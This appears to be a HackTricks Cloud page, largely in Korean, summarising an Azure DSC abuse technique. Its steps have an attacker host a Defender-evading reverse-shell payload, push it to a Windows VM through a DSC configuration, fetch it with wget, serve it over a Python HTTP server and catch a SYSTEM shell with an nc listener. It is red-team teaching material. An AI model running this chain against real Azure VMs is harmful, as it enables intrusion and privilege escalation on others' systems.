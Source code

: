# Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

이 과정은 Windows Defender를 우회하도록 설계된 수정된 Nishang `Invoke-PowerShellTcp.ps1` 페이로드인 `RevPS.ps1`를 호스팅하기 위한 원격 서버 인프라를 설정하는 것을 포함합니다. 이 페이로드는 IP `40.84.7.74`를 가진 Kali Linux 머신에서 간단한 Python HTTP 서버를 사용하여 제공됩니다. 이 작업은 여러 단계를 통해 실행됩니다:

#### Step 1 — Create Files

* **Files Required:** 두 개의 PowerShell 스크립트가 필요합니다:
1. `reverse_shell_config.ps1`: 페이로드를 가져와 실행하는 Desired State Configuration (DSC) 파일입니다. [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1)에서 얻을 수 있습니다.
2. `push_reverse_shell_config.ps1`: VM에 구성을 게시하는 스크립트로, [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1)에서 사용할 수 있습니다.
* **Customization:** 이러한 파일의 변수와 매개변수는 리소스 이름, 파일 경로 및 서버/페이로드 식별자를 포함하여 사용자의 특정 환경에 맞게 조정해야 합니다.

#### Step 2 — Zip Configuration File

* `reverse_shell_config.ps1`는 Azure Storage Account로 전송할 준비가 되도록 `.zip` 파일로 압축됩니다.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — Storage Context 설정 및 업로드

* 압축된 구성 파일은 Azure의 Set-AzStorageBlobContent cmdlet을 사용하여 미리 정의된 Azure Storage 컨테이너인 azure-pentest에 업로드됩니다.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Step 4 — Kali 박스 준비

* Kali 서버는 GitHub 리포지토리에서 RevPS.ps1 페이로드를 다운로드합니다.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* 스크립트가 수정되어 대상 Windows VM과 리버스 셸을 위한 포트를 지정합니다.

#### Step 5 — 구성 파일 게시

* 구성 파일이 실행되어 리버스 셸 스크립트가 Windows VM의 지정된 위치에 배포됩니다.

#### Step 6 — 페이로드 호스팅 및 리스너 설정

* 페이로드를 호스팅하기 위해 Python SimpleHTTPServer가 시작되고, 수신 연결을 캡처하기 위해 Netcat 리스너가 설정됩니다.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* 예약된 작업이 페이로드를 실행하여 SYSTEM 수준의 권한을 달성합니다.

#### 결론

이 프로세스의 성공적인 실행은 자격 증명 덤프 또는 여러 VM으로 공격을 확장하는 등 추가 작업을 위한 수많은 가능성을 열어줍니다. 이 가이드는 Azure Automation DSC 영역에서 지속적인 학습과 창의성을 장려합니다.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
